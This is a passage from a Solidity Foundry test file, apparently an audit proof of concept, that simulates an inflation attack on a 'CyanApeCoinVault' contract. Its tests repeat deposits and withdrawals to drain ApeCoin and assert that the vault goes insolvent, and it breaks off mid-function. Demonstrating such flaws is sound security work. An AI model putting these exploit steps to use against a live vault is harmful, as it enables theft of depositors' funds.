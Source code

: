 ```solidity
        // Step 5: Withdraw the stolen funds (tokens converted to ApeCoin)
        uint256 attackerTokens = vaultToken.balanceOf(attacker);
        uint256 withdrawAmount = vault.calculateCurrencyByToken(attackerTokens);
        vault.withdraw(attackerTokens);
        console.log("After withdraw - Attacker ApeCoin:", apeCoin.balanceOf(attacker));
        console.log("Vault ApeCoin balance after exploit:", apeCoin.balanceOf(address(vault)));

        // Step 6: Verify the theft and potential insolvency
        assertEq(apeCoin.balanceOf(attacker), 1e18, "Attacker should steal 1e18 ApeCoin from the vault");
        uint256 vaultRemaining = apeCoin.balanceOf(address(vault));
        assertLt(vaultRemaining, INITIAL_VAULT_BALANCE - 1e18, "Vault should lose 1e18 ApeCoin");
        if (vaultRemaining == 0) {
            console.log("Protocol insolvency achieved: Vault balance depleted");
        } else {
            console.log("Vault partially drained, risk of insolvency remains");
        }
    }

    // Edge case: Test a massive inflation attack to drain the vault completely
    function testMassiveInflationAttack() public {
        uint256 attackCount = 10; // Simulate 10 repeated attacks to drain the vault
        uint256 totalStolen = 0;

        for (uint256 i = 0; i < attackCount; i++) {
            // Small deposit to set rate
            CyanApeCoinVault.DepositInfo[] memory deposits1 = new CyanApeCoinVault.DepositInfo[](1);
            deposits1[0] = CyanApeCoinVault.DepositInfo(attacker, 1);
            vault.depositBatch(deposits1);

            // Large deposit to mint excessive tokens
            CyanApeCoinVault.DepositInfo[] memory deposits2 = new CyanApeCoinVault.DepositInfo[](1);
            deposits2[0] = CyanApeCoinVault.DepositInfo(attacker, 1e18);
            vault.depositBatch(deposits2);

            // Wait for withdraw lock (if any)
            uint256 lockTerm = vault.withdrawLockTerm();
            if (lockTerm > 0) {
                vm.warp(block.timestamp + lockTerm + 1);
            }

            // Withdraw stolen funds
            uint256 tokens = vaultToken.balanceOf(attacker);
            vault.withdraw(tokens);
            totalStolen += 1e18;
            console.log("Attack iteration", i + 1, "- Stolen ApeCoin:", totalStolen);
        }

        console.log("Total ApeCoin stolen after", attackCount, "attacks:", totalStolen);
        console.log("Final Vault balance:", apeCoin.balanceOf(address(vault)));
        assertLt(apeCoin.balanceOf(address(vault)), INITIAL_VAULT_BALANCE - (attackCount * 1e18), "Vault should be significantly drained");
        if (apeCoin.balanceOf(address(vault)) == 0) {
            console.log("Protocol insolvency confirmed: Vault balance depleted");
        }
    }

    // Edge case: Test attack with minimal vault balance to force insolvency
    function testLowBalanceAttack() public {
        // Reduce vault balance to simulate low funds
        deal(address(apeCoin), address(vault), 1e18); // Set vault balance to 1 ApeCoin
```